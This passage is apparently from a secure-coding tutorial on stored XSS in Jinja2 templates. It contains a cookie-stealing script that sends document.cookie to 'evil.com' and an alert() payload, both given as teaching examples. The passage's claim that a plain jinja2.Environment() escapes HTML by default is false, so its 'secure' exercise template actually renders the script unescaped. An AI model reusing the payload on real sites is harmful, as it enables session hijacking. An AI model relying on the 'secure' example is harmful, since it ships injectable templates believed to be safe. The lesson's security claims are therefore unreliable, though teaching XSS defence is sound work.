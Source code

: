 Now, if another user views the list of locked files, and you render that message directly into the HTML...

```html
<p>
  Message:
  <script>
    fetch("https://evil.com/steal?cookie=" + document.cookie);
  </script>
</p>
```

The browser doesn't know this is supposed to be text. It sees a `<script>` tag and **executes it**. The attacker has just stolen the viewing user's session cookie and can now hijack their account. This is a **Stored XSS attack**.

**The Defense: Jinja2's Auto-Escaping**

By default, Jinja2 is configured to be **HTML-aware**. When it renders a variable, it automatically escapes characters that are special in HTML.

- `<` becomes `&lt;` (less-than entity)
- `>` becomes `&gt;` (greater-than entity)
- `&` becomes `&amp;` (ampersand entity)
- `"` becomes `&quot;` (quote entity)
- `'` becomes `&#39;` (apostrophe entity)

When the browser sees `&lt;script&gt;`, it renders the literal text `<script>` on the page. It does **not** execute it as a tag. The attack is neutralized.

**Playground Exercise (Critical Security Lesson):**

Create a Python file `test_jinja.py`:

```python
import jinja2

# Malicious user input
malicious_input = "<script>alert('You have been hacked!');</script>"

# --- SECURE TEMPLATE (Jinja2 Default) ---
env = jinja2.Environment()
template_secure = env.from_string("<p>Message: {{ user_message }}</p>")
output_secure = template_secure.render(user_message=malicious_input)

print("--- SECURE OUTPUT (BROWSER-SAFE) ---")
print(output_secure)
# Expected: <p>Message: &lt;script&gt;alert(&#39;You have been hacked!&#39;);&lt;/script&gt;</p>

print("\n" + "="*40 + "\n")

# --- VULNERABLE TEMPLATE (ESCAPING DISABLED) ---
# The |safe filter tells Jinja2: "Trust me, this is safe HTML. Do not escape it."
# THIS IS DANGEROUS and should only be used for content you control.
template_vulnerable = env.from_string("<p>Message: {{ user_message|safe }}</p>")
output_vulnerable = template_vulnerable.render(user_message=malicious_input)

print("--- VULNERABLE OUTPUT (DANGEROUS) ---")
print(output_vulnerable)
# Expected: <p>Message: <script>alert('You have been hacked!');</script></p>
```
